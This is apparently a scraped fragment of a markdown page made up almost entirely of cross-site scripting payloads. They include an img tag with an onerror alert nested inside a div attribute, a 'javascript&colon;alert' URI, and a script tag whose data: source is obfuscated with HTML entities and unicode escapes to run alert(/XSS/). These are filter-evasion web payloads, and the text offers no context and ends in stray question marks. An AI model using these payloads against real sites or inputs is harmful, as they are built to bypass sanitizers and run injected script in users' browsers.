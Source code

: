 //<img type/onclick/alert() src="../../../../r89shi/r89shi.github.io/blob/master/140.gif?raw=true">
javascript&colon;alert281%29
<div dir="X&colon;Xj&NewLine;1&NewLine;<img src='' onerror='alert()'>">j&Tab;</div>

<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script ????????????
